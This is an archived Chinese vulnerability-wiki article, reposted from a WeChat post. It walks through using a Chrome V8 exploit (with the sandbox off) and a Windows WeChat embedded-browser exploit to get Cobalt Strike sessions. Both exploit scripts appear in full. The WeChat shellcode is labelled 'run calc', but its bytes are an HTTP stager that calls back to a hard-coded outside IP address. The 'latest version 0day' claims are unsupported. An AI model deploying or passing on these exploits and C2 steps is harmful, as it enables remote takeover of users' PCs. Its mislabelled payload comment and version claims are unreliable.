# chrome(最新版可用) 0day 上线 cs and wx 0day 上线

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Chrome V8；Windows微信内嵌浏览器
- 文献类型：双产品历史利用演示
- 版本、权限及部署边界：Chrome显式关闭沙箱、x64；微信<=3.2.1.141、32位引擎和内置浏览器打开链接
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. Chrome部分与《Chrome 0day 自定义shellcode利用》同一核心Math.sign/shift PoC，合并保留不同实验条件而非两漏洞
2. 标题最新版/0day无日期与Chrome版本，不支持当前有效性；关闭沙箱是显式前提不是沙箱逃逸
3. 微信是独立RegExp派生类/32位引擎利用，须拆成另一实体并补CVE/引擎版本，不凭相同上线目的合并
4. 微信shellcode注释称run calc但字节含WinINet字符串及外联IP，明显不是单纯计算器演示，载荷来源/行为需隔离核验
5. 所谓两个脚本未给完整HTML/worker加载关系；固定偏移、空Chrome载荷与仅截图成功不构成可复核完整复现
6. 微信>3.2.1.141修复与仅改用默认浏览器打开是不同缓解层，需官方补丁证据；公众号参考有但原作者和代码来源不足

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/Suklo7BwhfwpeWmU8ViYog>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://mp.weixin.qq.com/s/LOpAu8vs8ob85W3sCmXMew>
- 原文参考链接（未重新核验）：<https://github.com/MrWQ/vulnerability-paper>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Suklo7BwhfwpeWmU8ViYog)

**本文章由兄弟团队凌晨安全的一灯师傅搜集整理**  

一、 chrome(最新版可用) 0day 上线 cs

参考：https://mp.weixin.qq.com/s/LOpAu8vs8ob85W3sCmXMew

1、使用以下脚本，保存为 chrome.html 格式

```
<script>
     function gc() {
       for (var i = 0; i < 0x80000; ++i) {
           var a = new ArrayBuffer();
      }
  }
   let shellcode = [];
   var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
   var wasmModule = new WebAssembly.Module(wasmCode);
   var wasmInstance = new WebAssembly.Instance(wasmModule);
   var main = wasmInstance.exports.main;
   var bf = new ArrayBuffer(8);
   var bfView = new DataView(bf);
   function fLow(f) {
       bfView.setFloat64(0, f, true);
       return (bfView.getUint32(0, true));
  }
   function fHi(f) {
       bfView.setFloat64(0, f, true);
       return (bfView.getUint32(4, true))
  }
   function i2f(low, hi) {
       bfView.setUint32(0, low, true);
       bfView.setUint32(4, hi, true);
       return bfView.getFloat64(0, true);
  }
   function f2big(f) {
       bfView.setFloat64(0, f, true);
       return bfView.getBigUint64(0, true);
  }
   function big2f(b) {
       bfView.setBigUint64(0, b, true);
       return bfView.getFloat64(0, true);
  }
   class LeakArrayBuffer extends ArrayBuffer {
       constructor(size) {
           super(size);
           this.slot = 0xb33f;
      }
  }
   function foo(a) {
       let x = -1;
       if (a) x = 0xFFFFFFFF;
       var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
       arr.shift();
       let local_arr = Array(2);
       local_arr[0] = 5.1;//4014666666666666
       let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
       arr[0] = 0x1122;
       return [arr, local_arr, buff];
  }
   for (var i = 0; i < 0x10000; ++i)
       foo(false);
   gc(); gc();
  [corrput_arr, rwarr, corrupt_buff] = foo(true);
   corrput_arr[12] = 0x22444;
   delete corrput_arr;
   function setbackingStore(hi, low) {
       rwarr[4] = i2f(fLow(rwarr[4]), hi);
       rwarr[5] = i2f(low, fHi(rwarr[5]));
  }
   function leakObjLow(o) {
       corrupt_buff.slot = o;
       return (fLow(rwarr[9]) - 1);
  }
   let corrupt_view = new DataView(corrupt_buff);
   let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
   let idx0Addr = corrupt_buffer_ptr_low - 0x10;
   let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) - ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) + 0x40000;
   let delta = baseAddr + 0x1c - idx0Addr;
   if ((delta % 8) == 0) {
       let baseIdx = delta / 8;
       this.base = fLow(rwarr[baseIdx]);
  } else {
       let baseIdx = ((delta - (delta % 8)) / 8);
       this.base = fHi(rwarr[baseIdx]);
  }
   let wasmInsAddr = leakObjLow(wasmInstance);
   setbackingStore(wasmInsAddr, this.base);
   let code_entry = corrupt_view.getFloat64(13 * 8, true);
   setbackingStore(fLow(code_entry), fHi(code_entry));
   for (let i = 0; i < shellcode.length; i++) {
       corrupt_view.setUint8(i, shellcode[i]);
  }
   main();
</script>
```

2、打开 cobaltstrike，设置一个监听 http 或 https 的都可以 https 的相对稳定，这里使用 http





3、使用 cs 生成 payload，监听器选择上一步生成的，输出选择 C，然后勾选上 X64 payload。





4、打开生成的 payload 取出 shellcode 部分 使用全局替换功能将 “\” 为改为 “,0”。 



5、将替换好的 shellcode 拿出来放入到 chrome.html 中的 shellcode 中



6、在桌面 Google 快捷方式中右键属性在 “目标” 处加上 --no-sandbox 参数关闭沙箱



7、在 chrome 中打开，chrome.html 文件，可以看到 cs 成功上线。




成功上线



视频演示



8、临时修复方案：

    ①、建议不要点击别人发送的快捷方式

    ②、不要关闭 chrome 沙箱

二、 WX 0da 上线 CS

微信 exp

```
ENABLE_LOG = true;
IN_WORKER = true;


// run calc and hang in a loop
var shellcode = [ 0xfc, 0xe8, 0x89, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xd2, 0x64, 0x8b, 0x52, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf0, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x42, 0x3c, 0x01, 0xd0, 0x8b, 0x40, 0x78, 0x85, 0xc0, 0x74, 0x4a, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x8b, 0x58, 0x20, 0x01, 0xd3, 0xe3, 0x3c, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0x31, 0xc0, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf4, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe2, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x58, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x86, 0x5d, 0x68, 0x6e, 0x65, 0x74, 0x00, 0x68, 0x77, 0x69, 0x6e, 0x69, 0x54, 0x68, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0xe8, 0x00, 0x00, 0x00, 0x00, 0x31, 0xff, 0x57, 0x57, 0x57, 0x57, 0x57, 0x68, 0x3a, 0x56, 0x79, 0xa7, 0xff, 0xd5, 0xe9, 0xa4, 0x00, 0x00, 0x00, 0x5b, 0x31, 0xc9, 0x51, 0x51, 0x6a, 0x03, 0x51, 0x51, 0x68, 0xcb, 0x28, 0x00, 0x00, 0x53, 0x50, 0x68, 0x57, 0x89, 0x9f, 0xc6, 0xff, 0xd5, 0x50, 0xe9, 0x8c, 0x00, 0x00, 0x00, 0x5b, 0x31, 0xd2, 0x52, 0x68, 0x00, 0x32, 0xc0, 0x84, 0x52, 0x52, 0x52, 0x53, 0x52, 0x50, 0x68, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x89, 0xc6, 0x83, 0xc3, 0x50, 0x68, 0x80, 0x33, 0x00, 0x00, 0x89, 0xe0, 0x6a, 0x04, 0x50, 0x6a, 0x1f, 0x56, 0x68, 0x75, 0x46, 0x9e, 0x86, 0xff, 0xd5, 0x5f, 0x31, 0xff, 0x57, 0x57, 0x6a, 0xff, 0x53, 0x56, 0x68, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x0f, 0x84, 0xca, 0x01, 0x00, 0x00, 0x31, 0xff, 0x85, 0xf6, 0x74, 0x04, 0x89, 0xf9, 0xeb, 0x09, 0x68, 0xaa, 0xc5, 0xe2, 0x5d, 0xff, 0xd5, 0x89, 0xc1, 0x68, 0x45, 0x21, 0x5e, 0x31, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x6a, 0x07, 0x51, 0x56, 0x50, 0x68, 0xb7, 0x57, 0xe0, 0x0b, 0xff, 0xd5, 0xbf, 0x00, 0x2f, 0x00, 0x00, 0x39, 0xc7, 0x75, 0x07, 0x58, 0x50, 0xe9, 0x7b, 0xff, 0xff, 0xff, 0x31, 0xff, 0xe9, 0x91, 0x01, 0x00, 0x00, 0xe9, 0xc9, 0x01, 0x00, 0x00, 0xe8, 0x6f, 0xff, 0xff, 0xff, 0x2f, 0x72, 0x61, 0x31, 0x58, 0x00, 0xe2, 0x26, 0x9e, 0x3e, 0x30, 0xe8, 0xbe, 0xf9, 0x07, 0x26, 0x0c, 0xb7, 0x29, 0xcf, 0x9f, 0x0c, 0x71, 0x33, 0x42, 0x56, 0x55, 0x84, 0x12, 0x2d, 0x72, 0x24, 0x7d, 0x1c, 0xc6, 0xfe, 0x08, 0x22, 0xb5, 0x2b, 0x9a, 0xcb, 0x7b, 0x3e, 0x85, 0x07, 0xb8, 0xfc, 0xa4, 0x88, 0xe9, 0xe9, 0xae, 0x3f, 0x73, 0xaf, 0xe0, 0xca, 0x08, 0x0b, 0x12, 0x3a, 0xe9, 0x74, 0x31, 0x19, 0x8a, 0x58, 0xa4, 0xc5, 0xfb, 0x90, 0x80, 0xd5, 0xe8, 0x04, 0xbb, 0x71, 0x2b, 0x00, 0x55, 0x73, 0x65, 0x72, 0x2d, 0x41, 0x67, 0x65, 0x6e, 0x74, 0x3a, 0x20, 0x4d, 0x6f, 0x7a, 0x69, 0x6c, 0x6c, 0x61, 0x2f, 0x34, 0x2e, 0x30, 0x20, 0x61, 0x74, 0x69, 0x62, 0x6c, 0x65, 0x3b, 0x20, 0x4d, 0x53, 0x49, 0x45, 0x20, 0x37, 0x2e, 0x30, 0x3b, 0x20, 0x57, 0x69, 0x6e, 0x64, 0x6f, 0x77, 0x73, 0x20, 0x4e, 0x54, 0x20, 0x35, 0x2e, 0x31, 0x3b, 0x20, 0x2e, 0x4e, 0x45, 0x54, 0x20, 0x43, 0x4c, 0x52, 0x20, 0x32, 0x2e, 0x30, 0x2e, 0x35, 0x30, 0x37, 0x32, 0x37, 0x29, 0x0d, 0x0a, 0x00, 0x5c, 0x06, 0x71, 0x87, 0x72, 0x72, 0xb2, 0x05, 0x6b, 0x32, 0x1e, 0xcf, 0x09, 0x1a, 0x41, 0x36, 0xba, 0x6d, 0xe1, 0x1e, 0xe2, 0x4f, 0x33, 0xc8, 0x96, 0xc0, 0x8a, 0x6e, 0x3f, 0x34, 0x89, 0xbc, 0x44, 0x4c, 0x53, 0xf8, 0xb4, 0x8b, 0xe5, 0x88, 0x1b, 0x84, 0x78, 0x30, 0xe7, 0x1e, 0x1b, 0xde, 0xb8, 0x2b, 0x50, 0x77, 0x17, 0x3e, 0x15, 0xb4, 0x7a, 0x61, 0x1c, 0xde, 0xb9, 0x78, 0x67, 0x81, 0x91, 0x5f, 0x2a, 0x9b, 0x7a, 0x7a, 0xc4, 0xd4, 0x6d, 0xb4, 0x69, 0xdf, 0xa3, 0xb8, 0xf4, 0x18, 0x26, 0x50, 0x66, 0x88, 0xbd, 0xf7, 0x5c, 0xfc, 0xb6, 0xfd, 0xd2, 0x63, 0xe5, 0x16, 0x79, 0x1a, 0x10, 0x13, 0xfa, 0x15, 0xb8, 0x96, 0x58, 0x5b, 0x7e, 0x1e, 0xd2, 0xd9, 0x4b, 0xe9, 0xb6, 0x4a, 0x58, 0xa6, 0x93, 0x7f, 0xb6, 0x41, 0xc8, 0xd6, 0x2a, 0xb4, 0x0b, 0x15, 0xb9, 0xb7, 0xe6, 0xef, 0xd6, 0xca, 0xc7, 0xf0, 0x30, 0xbd, 0xef, 0xcf, 0x2d, 0x63, 0x61, 0x03, 0xf3, 0x49, 0x3b, 0x88, 0x72, 0x66, 0x23, 0x22, 0xb8, 0x91, 0x8d, 0xb8, 0xb2, 0x4f, 0x21, 0xaf, 0x93, 0x5c, 0x5a, 0x67, 0x12, 0xb5, 0xa7, 0x06, 0xa8, 0xde, 0xf7, 0xe5, 0x41, 0xca, 0x50, 0x47, 0xcc, 0x84, 0xb9, 0x6b, 0x05, 0x09, 0x83, 0x1a, 0xa7, 0xa1, 0x3a, 0x03, 0x75, 0x60, 0xf5, 0xf4, 0xba, 0x08, 0x02, 0x99, 0x8e, 0xfa, 0xc8, 0x72, 0xf5, 0xdc, 0x9b, 0x46, 0xda, 0x5a, 0xbf, 0x1e, 0x13, 0x11, 0xf8, 0xfa, 0x92, 0x28, 0x23, 0x70, 0xd0, 0x79, 0x96, 0x19, 0x8c, 0x38, 0x00, 0x68, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x6a, 0x40, 0x68, 0x00, 0x10, 0x00, 0x00, 0x68, 0x00, 0x00, 0x40, 0x00, 0x57, 0x68, 0x58, 0xa4, 0x53, 0xe5, 0xff, 0xd5, 0x93, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x01, 0xd9, 0x51, 0x53, 0x89, 0xe7, 0x57, 0x68, 0x00, 0x20, 0x00, 0x00, 0x53, 0x56, 0x68, 0x12, 0x96, 0x89, 0xe2, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0xc6, 0x8b, 0x07, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xe5, 0x58, 0xc3, 0xe8, 0x89, 0xfd, 0xff, 0xff, 0x34, 0x35, 0x2e, 0x31, 0x39, 0x35, 0x2e, 0x31, 0x35, 0x33, 0x2e, 0x31, 0x39, 0x39, 0x00, 0x6f, 0xaa, 0x51, 0xc3 ];


function print(data) {
}


var not_optimised_out = 0;
var target_function = (function (value) {
    if (value == 0xdecaf0) {
        not_optimised_out += 1;
    }
    not_optimised_out += 1;
    not_optimised_out |= 0xff;
    not_optimised_out *= 12;
});


for (var i = 0; i < 0x10000; ++i) {
    target_function(i);
}


var g_array;
var tDerivedNCount = 17 * 87481 - 8;
var tDerivedNDepth = 19 * 19;


function cb(flag) {
    if (flag == true) {
        return;
    }
    g_array = new Array(0);
    g_array[0] = 0x1dbabe * 2;
    return 'c01db33f';
}


function gc() {
    for (var i = 0; i < 0x10000; ++i) {
        new String();
    }
}


function oobAccess() {
    var this_ = this;
    this.buffer = null;
    this.buffer_view = null;


    this.page_buffer = null;
    this.page_view = null;


    this.prevent_opt = [];


    var kSlotOffset = 0x1f;
    var kBackingStoreOffset = 0xf;


    class LeakArrayBuffer extends ArrayBuffer {
        constructor() {
            super(0x1000);
            this.slot = this;
        }
    }


    this.page_buffer = new LeakArrayBuffer();
    this.page_view = new DataView(this.page_buffer);


    new RegExp({ toString: function () { return 'a' } });
    cb(true);


    class DerivedBase extends RegExp {
        constructor() {
            // var array = null;
            super(
                // at this point, the 4-byte allocation for the JSRegExp `this` object
                // has just happened.
                {
                    toString: cb
                }, 'g'
                // now the runtime JSRegExp constructor is called, corrupting the
                // JSArray.
            );


            // this allocation will now directly follow the FixedArray allocation
            // made for `this.data`, which is where `array.elements` points to.
            this_.buffer = new ArrayBuffer(0x80);
            g_array[8] = this_.page_buffer;
        }
    }


    // try{
    var derived_n = eval(`(function derived_n(i) {
        if (i == 0) {
            return DerivedBase;
        }


        class DerivedN extends derived_n(i-1) {
            constructor() {
                super();
                return;
                ${"this.a=0;".repeat(tDerivedNCount)}
            }
        }


        return DerivedN;
    })`);


    gc();


    new (derived_n(tDerivedNDepth))();


    this.buffer_view = new DataView(this.buffer);
    this.leakPtr = function (obj) {
        this.page_buffer.slot = obj;
        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
    }


    this.setPtr = function (addr) {
        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
    }


    this.read32 = function (addr) {
        this.setPtr(addr);
        return this.page_view.getUint32(0, true, ...this.prevent_opt);
    }


    this.write32 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint32(0, value, true, ...this.prevent_opt);
    }


    this.write8 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint8(0, value, ...this.prevent_opt);
    }


    this.setBytes = function (addr, content) {
        for (var i = 0; i < content.length; i++) {
            this.write8(addr + i, content[i]);
        }
    }
    return this;
}


function trigger() {
    var oob = oobAccess();


    var func_ptr = oob.leakPtr(target_function);
    print('[*] target_function at 0x' + func_ptr.toString(16));


    var kCodeInsOffset = 0x1b;


    var code_addr = oob.read32(func_ptr + kCodeInsOffset);
    print('[*] code_addr at 0x' + code_addr.toString(16));


    oob.setBytes(code_addr, shellcode);


    target_function(0);
}


try{
    print("start running");
    trigger();
}catch(e){
    print(e);
}
```

**0x01 漏洞介绍**

攻击者可以通过在网页 js 插入攻击代码，用户一旦点击链接，Windows 版微信便会加载执行攻击者构造恶意代码，最终使攻击者控制用户 PC。

攻击者可以利用此漏洞执行任意代码，控制用户 PC，存在极大的危害。

**0x02 影响版本**

Windows 版微信: 小于等于 3.2.1.141 版本

**0x03 漏洞复现**

1、搭建 cs，设置一个 http 或 https 的监听器



2、生成 payload，选择上一步的监听器，输出选择 C#，我这里就不勾选 x64 了，点击生成，将生成的文件保存到桌面。





3、使用两个脚本，修改 color.js 中的 shellcode 为 cs 生成的 shellcode

